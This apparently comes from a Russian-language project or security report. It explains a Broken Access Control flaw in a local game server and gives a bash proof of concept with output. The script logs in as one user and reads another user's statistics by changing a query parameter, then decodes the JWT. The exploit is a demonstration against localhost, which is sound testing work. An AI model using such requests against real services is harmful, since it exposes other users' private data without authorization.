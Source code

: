## Broken Access Control

Broken Access Control - это уязвимость, которая позволяет пользователю получить
доступ к данным или функционалу без наличия соответствующих прав.

Заметим, что для получения статистики пользователя, посылается GET-запрос на
сервер с cookie, содержащей сессию, а также передается query-параметр с именем
пользователя, статистику которого мы хотим получить.

```shell
#!/bin/bash

# rootroot is a first user, which have played some games
# and current user will try to sniff his statistics
session_cookie=$(
    curl -X POST "http://localhost:10005/login" \
        -H "Content-Type: application/json" \
        -d '{"username":"aboba","password":"aboba"}' \
        -i --silent | \
        grep -i set-cookie | \
        cut -d ' ' -f2
)

curl -X GET "http://localhost:10005/statistics/data?user=rootroot" \
     -H "Cookie: $session_cookie" \
     --silent | jq
     
# decoding the jwt session token to prove that
# it's not a rootroot user session
echo "$session_cookie" | awk -F '=' '{print $2}' | cut -d '.' -f2 | base64 -d | jq
```

```json
{"chartData":[{"y":100,"label":"Wins"},{"y":0,"label":"Ties"},{"y":0,"label":"Loses"}],"numbers":{"games":5,"wins":5,"ties":0,"loses":0}}
{"username":"aboba","iat":1710540136,"exp":1710543736}
```